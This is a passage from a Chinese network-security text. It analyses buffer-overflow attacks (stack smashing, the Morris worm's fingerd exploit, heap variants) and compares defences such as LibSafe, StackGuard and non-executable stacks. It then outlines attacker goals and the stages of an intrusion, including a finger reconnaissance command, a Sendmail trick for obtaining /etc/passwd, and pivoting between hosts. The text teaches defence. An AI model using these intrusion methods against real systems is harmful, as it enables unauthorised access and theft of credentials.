就算你不打算运行“简单”服务，libwrap 也会使得库运行得更好，并且已有替代 sshd 的趋势。

希望你现在正在运行一台使你充满信心的安全机器。当每台机器遵循以上指南时，还有少数的事情需要进行：尽量少地安装包，尽量少地开启服务，并且尽量消除设置用户标识符程序。这将很好地保护你的机器，无论现在或是未来。

## 防御缓冲区溢出攻击方法比较分析

在过去许多年，缓冲区溢出是主要威胁计算系统安全的攻击手段。这些攻击很多是具有破坏性并且有效的，它允许攻击者在被攻击的系统上获得系统管理员权限。我们对通常防御攻击的常规方法无效的原因进行了分析，从而得到可预见的未来。然而最近，若干个有希望的防御方法被提了出来。我们将这些防御手段进行了强度和弱点的比较。

## 介绍

缓冲区溢出成功地作为渗透系统安全的方法使用已经超过 12 年了。最早的缓冲区溢出攻击之一，是著名的 Robert Morris 的因特网蠕虫，它获得了空前的成功。1988年，Morris 成功地发布了一个程序在因特网上感染了几千台 Unix 主机。Morris 成功地获得一个脆弱系统的存取方法之一就是存在于 fingerd daemon 的缓冲区溢出错误。一旦获得了一个脆弱系统的存取权，Morris 的程序会在机器上自动安装，并且千方百计去感染其他机器。Morris 原来的目的是相对慢慢地传播到其他系统并且不被发现，在任何有影响的机器上不造成重要的混乱。

然而，他的目的完全落空了。Morris 的一个编程错误导致了比原来预想更高的传播率。由于这个错误，机器被感染并且再感染非常的快，从而蠕虫以压倒性优势攻击了系统。当然这也使其程序很快被检测出来，并且转变为当时最具破坏力的拒绝服务攻击。Morris 的程序通常不能获得系统管理员权限，并且没有破坏被入侵系统上的任何信息，也没有留下任何时间炸弹或恶意的代码。

1988 ~ 1996 年，缓冲区溢出攻击仍然保持相对低的数量。已知的漏洞及时修补，而且由于很少人知道攻击方法，发现并执行新漏洞被认为是很难的事情。这一情况在 1996 年被戏剧性地改变了，当时 Levy 发表了一篇很好的论文，它显示了很多程序存在缓冲区溢出危险，并且表明了对目标程序构造成功的缓冲区溢出攻击的技术是比较简单，甚至攻击者没有对目标程序的实际源代码的存取权。这两个因素的联合刺激了很多攻击者发现新的漏洞。另外，许多攻击被自动化，即使使用者一窍不通也可以执行攻击。对如此攻击感兴趣的人经常被称为脚本小子。

不幸的是，这些太多的脚本小子进行自动化攻击，使不堪重负的系统管理员感到极其头痛。本文剖析了缓冲区溢出攻击，并且讨论为何它们是如此流行并且致命的原因。然后，我们对传统防御手段进行检测，并且说明为什么在不久的将来无效于防止攻击的成功。然后讨论最近方法，并且讨论它们相对的弱点和力量。当没有 100% 有效的方法时，我们来证明为什么这些新方法更有成功的可能性。

## 缓冲区溢出攻击是什么

当程序在数组中存储信息超过其预留的空间时，缓冲区溢出将发生。这是引起邻近区域的缓冲区被覆盖，而破坏以前存储的数据。缓冲区溢出总是典型地被归为程序编程错误，因为程序员没能预见到程序输入进缓冲区的信息可以超过它定义的大小。不幸的是，正如我们很快所见，由于危险的 C 程序被广泛地使用，缓冲区溢出编程错误是相当普遍的。一旦缓冲区溢出漏洞在不适当的测试中未能被发现，以致于漏洞在隐蔽的程序中潜藏，不被发现且沉默多年。这些潜在的开放程序将成为利用漏洞获得系统非法存取的攻击目标。

缓冲区溢出会偶然地在程序的执行期发生。当它发生时，并没有很大可能导致系统安全问题。最常用的是对缓冲区邻近区域的信息进行攻击，从而引起程序崩溃或产生明显错误结果。另一方面，在缓冲区溢出攻击中，攻击者的目的是利用漏洞精心策划某种方法破坏信息，从而执行先前已经由攻击者植入的攻击代码。一旦成功，攻击者将有效地劫持了对程序的控制权。一旦控制被转移到攻击代码，它将允许攻击者非法存取。典型地，攻击代码在 SHELL 上执行，它允许攻击者在系统上执行任意的命令。

当一个新的 SHELL 在 Unix 系统上产生，它将继承产生此 SHELL 的进程的存取权限。因而，如果被攻击的具有缓冲区溢出危险的进程具有 ROOT 的权限，攻击者也将得到 ROOT 权限。在此我们的讨论仅限于 UNIX 操作系统，而实际上缓冲区溢出对大多数操作系统都适用。特别地，许多攻击是成功针对 Windows NT 和 Windows 2000 系统的。Axelsson 等通过已知的攻击类型对 Windows NT 和 UNIX 操作系统安全进行了比较，发现它们几乎是同等地脆弱。

缓冲区溢出攻击可以是本地或远程。本地攻击中，攻击者已经能访问系统，而他希望提高存取权限。远程攻击是通过一个网络端口进行的，并且可以同时完成获得非法存取权限和最大存取权限。

总之，我们所见的缓冲区溢出攻击通常由 3 部分组成：
- 1. 在目标程序中植入攻击代码
- 2. 实际拷贝进入需要溢出的缓冲区并且破坏邻近区域的数据结构
- 3. 控制劫持从而执行攻击代码

现在对缓冲区溢出攻击的主要类型进行详细描述。

## 破坏栈

缓冲区溢出攻击的分类取决于缓冲区的分配。如果缓冲区是一个函数的本地变量，那么缓冲区存在于 run-time stack。这是 Levy 论文中所提到的攻击类型，并且是迄今为止缓冲区溢出攻击最流行的形式。

当函数被一个 C 程序调用时，在执行跳到被调用函数的实际代码以前，函数的激活记录必须被推入 run-time stack。在 C 程序中，激活记录由下列区域组成：
- 1. 为函数中每个参数分配的空间
- 2. 返回地址
- 3. 动态连接
- 4. 为函数中每个本地变量所分配的空间。

为了方便起见，我们认为动态连接区域的地址就是激活记录的基地址。函数能够存取它的参数和本地变量。这要求在函数执行期间，寄存器包容函数激活记录的基地址，即动态连接区域的地址。参数位于栈中此地址之下，并且本地变量在此之上。当函数返回时，寄存器必须恢复到它以前的值，来指向被调用函数的激活记录。为了能做到这点，当函数被调用时，寄存器的值被保存在动态连接区域中。这样一来，每个激活记录的动态连接区域在栈上指向先前激活记录的动态连接域，它接着再指向先前的激活记录的动态连接域，依此类推，一直到栈的底部。在栈上的第一个激活记录是 main。这一指针链被称为动态连接链。在许多 C 编译器中，缓冲区向栈的底部发展。这样，如果缓冲区溢出并且溢出足够长，那么返回地址将被破坏，正如作为两者之间的另外任何事情，包括动态连接。如果返回地址被缓冲区溢出覆盖，从而以便指向攻击代码，当函数返回时，将被执行。这样一来，此类攻击就是利用在栈上的返回地址来劫持程序的控制权。

覆盖返回地址，正如以上所说，赋予攻击者一定意义上劫持程序控制权，但是攻击代码应该存储在哪里呢？通常，它在缓冲区中存储。这样一来，payload 字符串包含二进制机器语言的攻击代码将被复制到缓冲区中，就像覆盖返回地址的代码地址一样。

攻击者执行这个计划必须克服一些困难。如果攻击者拥有被攻击的目标程序的源代码，那么可以确切地知道缓冲区大小、离返回地址多远，以及 payload 字符串必须有多大。另外，payload 字符串不能包含空字符，因为这将终止复制 payload 到缓冲区；同样的，在 C 程序库中的特殊字符也要避免使用。

如今，在许多操作系统中，例如 Linux、OpenBSD、FreeBSD，甚至 Solaris，源代码的存取是很普通的事情。然而，Levy 演示的攻击即使不访问源代码，甚至不需要知道任何关于攻击程序运行的准确细节的知识也能实现攻击。攻击代码的地址可以通过各种各样的技术做近似猜测。例如，攻击代码能以没有操作指令的一张长长的列表开始，以便控制能被传递给任何东西，从而正确执行攻击代码的关键部分，来实现没有权限而建立一个新的 SHELL。这技术已经在 Morris 的蠕虫中使用。同样，payload 字符串的尾巴可以由一张我们希望用来覆盖返回地址的重复猜测攻击代码地址的表构成。这些技术增加了猜测攻击地址的机会，从而足够接近使编码攻击工作。

现在我们看看为什么缓冲区溢出是如此普遍。假定缓冲区是用来存放字符串的字符数组。大多数程序具有字符串输入或能被攻击者利用实现攻击的环境变量。程序必须读入这些输入并且分析它，以便做出适当的反应。通常，为了分析输入，程序首先要将输入内容复制到函数所分配的变量中，然后进行分析。为了这一目的，程序员为任何合理的输入保留一个足够大的缓冲区。将输入复制到缓冲区，程序通常使用典型标准 C 库中的字符拷贝函数，例如 strcpy。如果不够小心的话，将引发缓冲区溢出的危险。此模式很多 C 程序员需要使用的，所以许多程序将包含缓冲区溢出危险。

这个问题的产生部分是因为 C 用一个危险的方法代表字符串。字符串的长度取决于字符顺序中遇到空字符。这种方法很方便，因为字符串能有任意长度并且还允许对有效字符串处理。但是同时它也是危险的，因为如果字符串的结束不为空字符，那么整个程序将崩溃，并且无法在处理所有字符以前知道字符串的长度。典型 C 过于强调效率，而不够关心正确性、谨慎性或安全性。它要求有强大的编程实践来避免犯错误。所以它带来的后果是，如果在程序中没有首先定义长度，缓冲区溢出危险不能被根除。不仅从已发布软件的庞大数量来说，还是有更多具有缓冲区溢出危险的软件不断地问世，要消除这种危险将是非常困难的。

Miller 研究了当在各种版本中进行随机输入时，UNIX 操作系统（商业或开放代码）程序的行为。他的研究对我们的讨论相当重要，因为当意外的输入不必直接和缓冲区溢出关联时，即使是程序员倾向的集中合理输入，由于程序没有处理意外输入的能力也将导致缓冲区溢出缺陷。

攻击者是无理可循的。相反，他们希望利用无理性这个盲点，发现程序逻辑漏洞来为他们自己的目的而服务。因此 Miller 的研究提供了缓冲区溢出问题是如何普遍的。不幸的是，在几乎所有发布的程序在 Miller 的试验下面垮掉了。

Miller 在不断研究了五年后，提出了一些供应商改进软件质量的远见卓识。确实，他的结果显示了可实行性。但是进步是不大。

## 传统型的防卫

现在来看看一些传统对付缓冲区溢出危险的方法。我们已经提及了从目标程序消除错误的方法。而不幸的是，这一途径看来不大可能成功。所以，这里将更深一步讨论防御方法。

首先，为了消除错误，很多程序必须被检验。潜在的目标数字非常惊人。使用一些工具可以自动搜索漏洞。例如，对于使用 C 库中的不安全函数（例如 strcpy），可以通过一个简单的计划进行查找，并且用与缓冲区大小一样的安全功能代替它们（例如 strncpy）。当然，在每个程序中使用手动代码是巨大并且很昂贵的办法。这不是说这项工作无法实施，至少在此方法下至少有两个免费的 Unix，OpenBSD 和 Linux 版本。上面所说的方法似乎已经获得可观的成功，从而为 OpenBSD 争取到了当前最安全的 Unix 的名声。人们想知道为什么类似的方法不能在商业操作系统上实施，他们应该更能负担这笔费用。这是因为使用系统代码审计方法后，也无法保证一定会检测出缓冲区溢出代码。甚至在一些已经被审计了的代码中发现依然存在缓冲区溢出。

大多数安装必须依靠供应商提供的可靠代码。就算源代码是可以得到的，他们必须发布他们也无法充分理解的代码。不幸的是，对于供应商的信赖在许多情况上被误导了。这种情况似乎还是传统推荐的主要途径。安全专家建议系统管理员紧跟供应商提供的安全补丁，一旦发布，立即安装。这可能使系统更安全。然而，这条途径有严重的缺点。第一个问题是，它将花费系统管理员大量的时间和精力。许多系统是由非专业人士管理的，所以此方法不太切实际且无法防御住的。这样的治疗比疾病更糟糕。这种方法无法保证系统及时安装补丁，于是攻击者拥有了许多脆弱的系统，甚至是那些已经修复过的系统。更为恐怖的是，程序员们不停地在为每个新的操作系统版本提供新危险。

## 最新防御手段

最近所研究的新的防御手段要比以上讨论的传统型途径更有希望。以下我们就三种新方法的优势和缺点进行讨论。这 3 个方法同样吸引人的特征之一是测试费用较低，所以任何系统管理员可以独立于供应商进行检测，并且这些测试方法对一些尚未被发现的缓冲区溢出危险都非常有效。因此，这 3 个方法的共同特征之一是他们提供对当前脆弱的代码进行了保护。这些方法另外最重要的优点是他们比起以前方式更具有积极防御性。他们不需要系统管理员等待供应商提供东西来保护其系统安全，而是自身保护的一项重要的措施。

- 1. 禁用栈执行
现在，一些供应商提供这种防御的方法。大多数系统不需要曾经在栈上执行过的代码。由于最普通的缓冲区溢出，正如第三节中所阐述的，是依靠代码植入缓冲区并且执行来实现的，所以一个简单的解决方案就是安装操作系统时选择禁用栈执行。此想法简单易行，安装便利，并且相对有效地防御了当前的攻击。

这种方法有一些严重的缺点。首先，尽管很少，但一些程序依然依靠栈来执行。更重要的是，防御非常微弱。尽管在缓冲区溢出是基于贮存在缓冲区当前栈中的代码执行的，但对于攻击者来说，他们不在乎攻击代码在哪儿。攻击者需要的是代码存在于内存的某个地方以及知道其地址或近似地址，从而溢出返回地址来劫持控制。所以，这种方法对于缓冲区溢出攻击代码不存于栈上这种方法无效。例如 Wojtczuk 研究了绕过无可执行栈防御的方法。

- 2. 更安全的 C 库支持
一个更好的选择是，如果我们能提供一个安全版本的 C 库函数，来对付依靠不安全 C 库攻击覆盖返回地址的方法。这个想法似乎被很多人同时想到。Alexander Snarskii 是第一个想到的。他在 Unix 的 FreeBSD 版本上实现了此想法并且提交给了 FreeBSD 的开发组。不幸的是，他的方法没有被推广应用，也可能他没有充分意识到他想法实际效用，即使他意识到了，也没有详细地在提交书上阐明。所以，Snarskii 的想法与其实际意义相比没有获得很大的影响力。Baratloo、Tsai 和来自 Bell 实验室的 Singh 相继发现了这一办法，并且撰写了内容丰富的白皮书。贝尔实验室工作组将库中具有脆弱性的函数转换成为比较安全的函数后称为 LibSafe，在其站点上可以免费下载。

是否可以由一个更安全 C 库版本来代替脆弱的函数呢？我们将以 `strcpy` 为例讨论，但是方法同样适用于任何其他脆弱的字符串。乍看之下 `strcpy` 似乎没有可能会有更安全的版本，因为 `strcpy` 不知道其正在拷贝进入的缓冲区的尺寸。所以，要完全避免缓冲区溢出是不可能的。尽管如此，`strcpy` 在栈上能访问动态链接，并且连续的动态链接就像把所有当前活动的函数的激活记录上做上鲜明标记一样。此方法是使用这个信息防止 `strcpy` 破坏返回地址或动态链接域。

使用这些标记和缓冲区地址，`strcpy` 首先可以决定缓冲区中有哪些活动记录，或缓冲区根本不在栈上。然后 `strcpy` 会发现区间 [a, b] 间包含在缓冲区中的连续动态链接。缓冲区在其第一激活记录下面，又在最后激活的记录上面，所以可以确定 A 或 B 的值。一旦 A 或 B 值确定，我们计算缓冲区的上限。例如，如果缓冲区向栈的底部发展，那么 |缓冲区 - a| 就是缓冲区尺寸的上限。这能使 `strcpy` 限制拷贝的字符串的长度，以便既不影响动态链接也不让返回地址被覆盖。而且 `strcpy` 能检测到这种企图并记录到 syslog，并且安全地终止应用程序。

LibSafe 没有代替标准的 C 库。此方法依靠在标准 C 库前用 LibSafe 装载搜索器代替，以便安全函数替代标准库工作。这个计划比直接替换 C 库中的函数更灵活。例如，可以使一个程序同时使用 C 库和 LibSafe。通过设置合适的环境变量，LibSafe 可以作为默认安装。但是从安全前景来说，在系统上保留脆弱的函数是没有必要的，所以这种灵活性变得可有可无了。

这种防御手段有若干个优点。它对所有试图通过由于目标程序中使用了脆弱的 C 库函数导致复制数据进入缓冲区时破坏栈来达到缓冲区溢出的攻击都是有效的。此方法不能完全防止缓冲区溢出，因为它不知道缓冲区的真实尺寸。它依然可能在缓冲区和动态链接之间造成溢出。但却有效地防止了返回地址和动态链接域被重写。

此方法对于基于堆的缓冲区溢出攻击，或者那些不需要通过重写返回地址来获得控制的攻击都不能起到任何保护作用。虽然这两个攻击的类型更难实施并且很少。此方法对于不使用标准 C 库函数也没有作用。例如，如果目标程序包含客户自定义的特定代码拷贝字符串进缓冲区，它将不被保护。当然，很少程序会有这样的特定代码。一般来说，它被认为是差的程序员在“重新发明轮子”，因此程序员倾向于使用标准库。

尽管依靠特定代码的程序就和使用标准 C 库的那些一样包含缓冲区溢出危险，但它们很少有可能被检测出来。从而受到攻击的可能性要小些。但是，通过这样的方法来防范总不怎么好。安全函数几乎是免费的，并且安装库及配置系统的费用低廉。另外一个优点是它与目标程序的二进制代码一起工作，所以不要求存取源代码。最后，它没有必要等供应商意识到安全威胁而发布补丁。它比禁止栈执行防御更具有柔韧性。尽管它对于以上讨论的某些攻击不能提供防御，但是对于它用来防御的特定攻击型是很有效的，并且它不容易被绕过。攻击者没有办法进行缓冲区溢出攻击，因为这些防御都发生在攻击者有机会劫持控制之前。总之，这种手段通过很低的费用改进了系统的安全性，我们认为，它必将取得胜利。

我们也提及 Andrey Kolishak 的 BOWall 保护。这是为 Windows NT 系统提供的。这个解决方案同更安全的库途径及在下一节阐述的方法有些类似。

Kolishak 的方法与更安全的库相类似的是，它用一个更安全的库版本代替了包含脆弱库函数的 DLL。然而，与库安全或 Snarskii 方法不同的是，它更像是缓冲区溢出检测系统，所以更类似于下一节的方法。他在函数进入时储存返回地址，并在真正返回前进行核对。如果检测出返回地址被破坏，就不返回，这样就防止了劫持控制。Kolishak 的 BOWall 也有两种方案，其依靠一些特定的 Windows NT 安全特性。

## 3. 编译器技术

索引范围检查是 100% 的对付缓冲区溢出攻击的方法。例如，缓冲区溢出攻击在 Java 程序中是不可能实现的，因为 Java 会在适当的范围内自动检测数组索引。不幸的是，由于 C 中数组和指针的两分，所以在 C 中展开全范围检测是不可能的。如果数组存取时具有索引选项，一些编译器可以提供保护，例如表达式 `buffer[i]` 和非表达式 `buffer + i`。当编译器编译类似 `strcpy(char* dest, char* src)` 函数时，这 2 个参数只是指针，且编译器不可能知道相应的数组长度。所以编译器不能产生在函数内部进行范围检测的代码。Jones 和 Kelly 实现了在 C 中的一些范围检测技术。

C 程序员由于相关的系统开销原因不很欣赏范围检查法，但是这种过度消耗性能的手段仅在需求最多的程序中是正当的。快速性总是一个合乎需要的特征，但对于大多数应用程序来说，它比程序员假设的要得到更少的指责。例如，对 Solaris 中的后台日历管理器进行缓冲区溢出攻击可以得到 root 权限，然而这样的应用程序为什么不用 Java 写呢？这样就使攻击变为不可能了。我们有理由相信在此情况下对性能的要求不是很苛刻的。一些安全缺陷在 Java 中被发现并且很快修复。这些缺陷不是 Java 安全模型无效，它是非常健全的，但是通常是由于 Java 虚拟机的实现问题——当然虚拟机又是一个 C 程序，因此会出现与其他 C 程序一样的错误。

Cowan, Wagle, Pu, Beattie and Walpole 设计一种新的方法来解决问题。他们的方法不是阻止破坏返回地址和动态链接，而是通过在控制权被劫持前检测来防止攻击的发生。如安全库方法一样，其思路简单且漂亮。它基于一种假设，即如果缓冲区溢出攻击发生了，然后在缓冲区和返回地址之间的任何东西都可能被破坏。他们建议修改编译器，通过适当地分配被称为 canary 的额外空间，来保护活动记录的返回地址和动态链接——在动态链接之后及激活本地变量之前。

当激活记录进入栈时，值同时在 canary 域里存储。在函数返回前，canary 中的值被检查。如果它被破坏，canary 报警，攻击被检测。在这种情况下，程序会随着一个关于缓冲区报警的 syslog 错误而终止，从而防止了被攻击。这些想法在 StackGuard 中实现，它在一些试验中保护了整个用此技术重新编译的 Linux 版本。

为了避免攻击者伪造在 canary 中的值的可能性，他们建议同时存储终止标志（类似空字符、回车符、line feed 及 EOF），这些 payload 字符串将停止对 C 库中各种脆弱函数的复制操作；或选择一个 canary 中的随机值，每次程序启动时独立选择，这将使攻击者很难进行伪造。“Bulba”和“Kil3r”发现可以绕过 StackGuard。例如，他们推理如果一个指针变量在缓冲区和返回地址之间，那么第一个缓冲区溢出能破坏这个指针变量而没有破坏其他东西，以便使它指向返回地址域。然后第二步的拷贝操作不用破坏 canary 就能重写返回地址。这将通过避免所有的东西都位于缓冲区和返回地址之间而造成缓冲区溢出的基本假设来绕过 StackGuard 保护。为了对付此类攻击，Cowan 建议比较好的选择是，储存的值取决于随机值和正确的返回地址值。具体地说，他建议计算这 2 个值的 XOR。这项反措施很容易实现，就算 canary 没被改变，它也将检测到攻击。

“Bulba”和“Kil3r”用脆弱性代码的例子表明他们的技术。但是依我们所见，这些攻击比必须有目标程序作为攻击条件要严重得多，从而使他们的技术成为当前对 StackGuard 保护最有威胁的技术。这样的目标程序是很有可能存在并且广泛发布，使他们的技术必须受到相当的重视。当然，面对安全问题时，人们必须小心谨慎，而没有防御是件极傻的行为。

StackGuard 的性能开销比 LibSafe 更大，部分是因为 StackGuard 对每个函数调用都要开销，但是比起范围检测的对每个数组的存取都需要耗费资源要好得多。但是在任何情况下，这种资源占用仍然很小。StackGuard 甚至对自定义代码也有效，因为 StackGuard 是一个缓冲区溢出检测方法，而对缓冲区溢出如何发生不在乎。然而我们注意到，自定义的攻击代码与那些依靠标准函数库的工作不同。在另一方面，假设系统管理员能访问被修改的编译器，那么其防御的花费要大于安全库方法，因为，它需要重新编译需要保护的每一个目标程序。这也意味着必须有人能访问目标程序的源代码，换而言之 StackGuard 不能保护没有源代码的程序，但 LibSafe 却能。

从某种意义上来说，本节讨论的 3 个方法是互相补足，因此它们能独立或同时被使用。而这样做以后对攻击的坚韧性也将提高。

## 缓冲区溢出变体

前面提到的 Morris 蠕虫使用了若干个方法试图感染一台机器，其中之一就是攻击 finger 端口来达到破坏栈的目的。蠕虫的一部分向 79 (finger) 端口发送 TCP/IP 包。此包由 400 VAX 空操作指令组成，跟随着 exec'd shell 代码，等到溢出返回地址后指向此代码。蠕虫也用同样构造的包攻击 SUN 机器，但是可能是在 SUN 版本中重写返回地址的错误使其无法成功，虽然 SUN 系统也是非常脆弱的。fingerd 通过 `gets()` 函数将输入内容读入本地 512 字节的缓冲区然后进行分析。以上的包有 536 个字节，因此这将引起溢出并且破坏返回地址。一旦控制被劫持，shell 将从网络连接上读取它的输入并且将其输出写入网络连接中。客户端方面只要发送了这样的包就会发送到感染了蠕虫的 C 程序上，然后重新编译并运行于新的被感染的机器。

尽管 fingerd 攻击是一种直接破坏栈的攻击，但最初的模仿者很少。也许很少人意识到这些同样的危险也存在于大多数的目标程序中。另外的因素可能是蠕虫是相当复杂的，并且 fingerd 攻击只是它使用的若干个方法之一。所以，此类攻击只被少数人理解。直到 Levy 的论文发表后，黑客界才逐渐意识到，很多程序都能造成破坏栈的危险。

一旦破坏栈的攻击被广泛应用，其变体类型就随之出现。从第二节中普通的缓冲区溢出步骤来看，一些程序不需要步骤 1（植入攻击代码），因为代码可能已经在目标程序中存在。在此情况下，步骤 2（溢出缓冲区）可能不仅破坏返回地址还有另外其他的资源。例如可执行的字符串代码。在此情况下，控制劫持工作将变得不同。

在破坏栈的例子中，步骤 1（植入攻击代码）能通过不同的方法完成：通过目标程序的输入，或环境变量，或目标程序在网络上的一个监听端口（例如 fingerd，其实是另一种的输入形式）。步骤 2，将植入代码复制到缓冲区，然后在栈中重写返回地址。当函数返回错误的返回地址时，控制劫持发生，并且执行攻击代码。

当栈为步骤 2 和 3 提供攻击方便时，我们来看看不包含栈而通过程序来劫持控制的方法。这将导致一个完全不同种类的潜在攻击。函数指针中存储的任何结构，或程序将跳过步骤 3 潜在的目标地址。如果这些结构能通过缓冲区溢出被破坏，那我们就有了一种潜在的攻击新技术。如果执行必要的模式被广泛传播，将产生另一种危险变体。

例如，基于堆的攻击在 C++ 目标程序上可能实现。每个对象都有一个虚拟函数表，每一个入口指向其相应的对象成员函数。通过破坏对象的虚拟函数表，当任何对象的操作被调用时，控制能被劫持。不执行对象的真实操作，而改为执行攻击代码。每个面向对象的程序都有这个模式，因此在理论看来是相当可行的。但是困难在于找到邻近对象的程序可以被溢出的缓冲区。对象在堆上被分配的顺序取决于现有特殊的运行时间条件，这是不可预言的。因而，通过基于缓冲区溢出堆来破坏虚拟函数表的攻击机会比破坏栈的攻击要难很多。

## 总结

我们分析了各种缓冲区溢出攻击的特性，它们流行的原因，有效性和防御费用。直到最近，攻击者似乎有上帝之手的帮助，传统型的防御大部分无力阻止这些攻击。我们分析了原因。我们引用的原因之中有传统型的防御推广费用、防御方法的反应，和依靠供应商提供操作系统安全解决方案。最近有效的防御手段，打破了传统的常规，从而使人们有希望在防守战中获得胜利。

## 拒绝服务攻击

### 攻击事件

攻击的行为很难用概念来说清楚，也很难被发现。那么到底怎样才算是一次网络攻击呢？一种定义为，一旦入侵某个网络或使正在使用的网络瘫痪，这样就可以说进行了网络攻击。从现在的法律规定：非法入侵或进入他人计算机的，给他人的保密文件进行查看、毁坏等，都属于违反了法律。这样看来，上面说的那个定义是成立的。但是，攻击的事件，一般是仅仅发生在入侵者行为完成并且已在目标网络之内。所以说，更简单的一个说法就是：某个入侵者在目标计算机上开始“工作”的那个时刻起，攻击就已经开始了。

入侵者通常都是需要一段时间来完成攻击。而在这段时间，攻击者将收集目标主机信息，观察目标主机的反应。这样的行为不能定义成攻击。因为从法律上讲，他并未连续地发生，与平常的用户是一样的，所以不能和攻击说在一起。当攻击者发现目标系统一直在做日志的时候，也许他会一直耐心等待，等待时机的出现。

系统管理员对异常信息反应的激烈程度是不一样的。有的是干脆不当一回事。而某些比较有经验的攻击者就先进行探视进攻，看看管理员对攻击的反应。然而大部分的管理员都不会去处理这样的简单信息。除非这些信息带有明显的攻击迹象。如：多次尝试用一个用户来登陆。一个明显攻击的例子是有人企图利用旧版本的 Sendmail。就是入侵者在 25 端口上发出了两个命令，这些命令是想欺骗服务器将 /etc/passwd 文件的拷贝用电子邮件的形式发送给入侵者。很显然这样的信息会使管理员注意。然而当出现 showmount 命令询问信息时，情况会有所不同。Showmount 的出现是一个不祥的预兆。但是这个不能作为要进行攻击的证据。实际上，它最多是表明某个人打算要入侵。

其实，像这样的关系，信息技术也有很多的不足。几个不同的访问地址不足以使管理员关注，但是，大量的扫描会使管理员立刻意识到问题的存在。这样看来，最多能知道哪个计算机有安全漏洞可利用，入侵者才会发起攻击。

所以，在这里，要建议广大的网络管理员，了解攻击者的行为和特征，做好防范工作，是保障网络正常运行的前提。而且要养成具有安全防范意识，及时发现异常，补住系统漏洞。

### 攻击的原因及其目的

对攻击者的目的有一定的了解，使我们能够更好地对可能出现的攻击有了防范意识。下面我们要从各个角度来介绍攻击者或者说黑客想要攻击的原因和所要达到的目的。

- 1. 获得超级用户的权限
  一旦有了超级用户的权限，就可以做事情。所以每个入侵者都希望得到超级用户的权限。取得这种权限后，可以完全隐藏自己的行踪，在系统中留下一个方便的后门，使自己得到更多的好处。在 UNIX 系统中，运行网络监听程序必须要有这样的权限。在上面的章节中我们已经讲到过。因此，在同一个网络中，只要掌握了一台计算机主机，那么可以这样不夸张地说，掌握了整个的子网。

- 2. 进程的执行
  攻击者在登陆目标计算机主机后，没有进行其他的活动，只是运行了一些程序，也许这些程序是无害的，仅仅是消耗了系统的资源和处理器的时间。但是有很多的程序只能在一个系统下运行，不能在其他的系统中运行。如：一些扫描程序只能在 UNIX 下运行，那么攻击者就要有一个 UNIX 工作站。而且，一些有经验的攻击者，他在进行攻击的时候，往往会给自己找个中间的“跳板”，以免暴露自己。即使被发现，也只是能够追踪到中间的跳板，而和自己无关。这种情况对主机本身没有太大的坏处，但是潜在的危害是存在的。首先它占用了 CPU 的时间资源，当攻击者运行一个监听的程序的时候，会使计算机主机对其他程序的响应十分的缓慢。而且这样的行为他可以转嫁到其他一方，像管理员的责任等。

- 3. 获取文件和数据
  攻击者一般的目标都是系统中重要的数据。因此攻击者只要能够顺利地登陆到目标主机上的话，那么他所监听得到的信息中可能含有重要的信息。很可能是用户的口令文件。由于口令是明文方式传送的，所以，只要攻击者得到口令，那么他就可以访问其他受限制访问的资源，从而所造成的经济损失是不能估计的。

## 拒绝服务

同上面的几种行为来比较的话，这样的拒绝服务攻击，就是一种破坏的行为。拒绝服务攻击有很多种类型，像关掉计算机主机电源、拔掉网线、向服务器发送大量无用信息、制造网络风暴、占据网络带宽等等手段，这些都是拒绝服务攻击，我们将在后面的章节中详细介绍这种攻击。

## 攻击的三个阶段

黑客在网络上经常采用的手段有：

- 利用 UNIX 系统提供的缺省帐户进行攻击：许多主机都用 ftp 和 guest 等帐户，有的帐户甚至没有口令。黑客用 UNIX 系统提供的命令如 finger 和 ruser 等收集信息，不断提高自己的攻击能力。
- 截取口令方法：通过网络监听或记录用户的击键得到用户的口令。
- 寻找系统漏洞：许多系统都有这样那样的安全漏洞，其中某些是操作系统本身的，如 sendmail 的漏洞；而有些是管理员配置错误引起的，如在网络文件系统中，将目录和文件以可写的方式调出。
- 强力闯入：可以采用物理访问的方法，如在控制台用 `boot -s` 命令，也可以无数次地猜口令。
- 偷取特权：使用木马程序或者缓冲区溢出程序都有可能得到系统权限。
- 使用一个节点作为根据地，攻击其他节点：可以使用网络监听的方法，也可以利用主机信任关系，在突破一台主机后，尝试攻破同一网络内的其他的主机。
- 清理磁盘：在一些删除的文件，回收站内的文件或者是临时目录内的文件中，往往含有重要的信息，黑客可以清理这些文件，找到有用的信息。

这些手段又是怎么样实现的呢？我们先看黑客攻击的三个阶段：

### 1. 寻找目标，收集信息

选定攻击目标——即对准备进攻的系统，通常是从已攻入系统的 .rhosts 和 .netrc 文件所列的主机中挑选出来，从系统的 /etc/hosts 文件中可以得到一个很全的主机列表。但大多数情况下，选定攻击目标是一个比较盲目的过程，除非攻击者有明确的目的和动机。攻击者也可能找到 DNS 表，通过 DNS 可以知道机器名、Internet 地址、机器类型，甚至还可以知道机器的属主和单位。攻击目标还可能来自偶然看到的一个调制解调的号码，和贴在旁边的机器使用者的名字。

### 2. 获得初始的访问权与特权

攻击者需要伪造访问目标的 ID，以冒充系统的正式用户。系统对用户的认证是靠用户名和口令进行的，攻击者最喜欢用众所周知的用户名进行攻击。许多情况下，这些名字由姓和名字的首字符构成，即使用户名没有这么明显，也很容易通过 finger 和 ruser 获得。

Finger 命令不但能测试目标主机是否连通，往往还能告诉攻击者许多有用的信息，例如：

```bash
liwrml@safeunion $ finger @target.host
```

于是可以得到类似如下文所示的信息：

```text
* * * . * * * . * * * . * * *
Login         Name                TTY     Idle    When        Where
liwrml  Distributed Shared M    console   2 8   tue 12    19  another.host
```

注：`* * * . * * * . * * * . * * *` 为主机 target.host 的 IP 地址。

而口令就不容易获得了，特别是用户口令通常为 8 个字符，又不是字典中的词，其组合有非常多的可能性。攻击者若使用口令获得工具，也相当费时而且不能保证有效，至少他需要足够的时间和耐心。对 NT 和一些主要系统来讲，系统在 3 - 5 次试口令失败的情况下会断掉连接。这就是为什么攻击者总是依赖网络服务，如 NIS、RLOGIN/RSH 与 NFS 等来攻击系统的原因。

现在许多软件中发现了一类缓冲区溢出的错误。在 UNIX 系统中，利用一些 SUID root 程序的这种错误编写的程序可以帮助攻击者轻易地获得系统权限。

### 3. 攻击其他的系统

攻击一个系统得手后，攻击者往往不会就此罢休。他会在系统中寻找相关的主机可用信息，继续进行攻击。攻击的方法很多，比较通用的是装一个监听的程序，这样几乎可以掌握整个网络。

## 攻击的时间

在 Internet 网络上攻击的时间是不能完全肯定的。因为大多数的计算机主机都 24 小时和 Internet 相连，这就意味着攻击是任何时间。但是一些有经验的攻击者，他可能会有下列的规律。

